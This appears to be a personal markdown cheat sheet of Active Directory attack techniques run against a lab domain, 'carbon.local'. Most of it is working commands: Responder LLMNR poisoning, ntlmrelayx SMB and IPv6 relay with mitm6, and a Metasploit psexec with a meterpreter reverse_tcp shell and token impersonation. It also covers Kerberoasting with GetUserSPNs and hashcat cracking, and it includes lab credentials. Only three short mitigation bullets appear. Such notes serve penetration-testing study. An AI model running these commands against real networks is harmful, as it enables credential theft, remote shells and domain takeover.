


**1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 Token Impersonation** \
**5 MS17-010** \
**6 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::  

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  
  &&  
- shells W/ creds::   \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`


**4. Token Impersonation:**
```
msfconsole use exploit windows/smb/psexec 
msfconsole set smbdomain carbon.local set smbpass Password!1 set smbuser e.triage set rhost 192.168.86.206 set target 2(Native Upload)
set payload /windows/x64/meterpreter/reverse_tcp set lhost eth0 run
```
```
`meterpreter> hashdump, getuid, sysinfo`
`meterpreter> load <tab> incognito`
`meterpreter> help - `
`meterpreter> list_tokens`
`meterpreter> impersonate_token CARBON\\e.triage`
`meterpreter> shell`
`C:\Windows\system32> whoami :: carbon\e.triage`
```

***if hashdump run now - will throw errors :: to fix "rev2self" see ***
***Token is there until computer is reboot***

**Mitigation strategy::** 
+ Limit User/Group token creation permissions
+ Account tiers - Domain admin's should only be logging into DC's
+ Local admin restriction

---

**5. Kerberoasting:** Goal:: Get TGS and decrypt server's account hash (tgs may be hint). See 
  1. User -> DC  :: Request TGT. Provide NTLM hash
  2. DC -> User  :: Receive TGT enc w/ krbtgt hash
  3. User -> DC  :: Request TGS for Server (Presents TGT)
  4. DC -> User  :: Receive TGS ecn w/ server's account hash (TGS received)
  5. User -> App :: Present TGS for service enc w/ server's account
  6. App -> User :: Used when mutual Authentication is required
  7. App -> DC   :: PAC Validation Request Optional
  8. App -> DC   :: PAC Validation Response Optional

  
```
/opt/impacket/examples# GetUsersSPNs.py Carbon.local/e.triage:'Password!1' -dc-ip <ip-DC> -request -outputfile hashes.kerbroast
```

```
PS C:\Users\e.triage> klist get host/ETHYL <computer name>
#0>     Client: e.triage @ CARBON.LOCAL
        Server: krbtgt/CARBON.LOCAL @ CARBON.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 12/24/2021 13:17:39 (local)
        End Time:   12/24/2021 23:17:39 (local)
        Renew Time: 12/31/2021 13:16:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: Oxytocin-DC.Carbon.local
```

```

hashcat -m 13100 hashes.kerbroast /usr/share/wordlists/rockyou.txt -O #13100 is Kerberos TGS module
```

**6 GPP Attacks:**
  1. Group Policy Preferences allows admins to create policies w/ embedded creds
  2. creds encrypted and placed in a "cPassword"
  3. key accidentally released
  4. Patched in MS14-025 - doesnt prevent previous uses (Server 2012). 
  5. msf auxiliary (smb_enum_gpp) #to check for GPP vuln


---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
[GPP_extras] (https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage)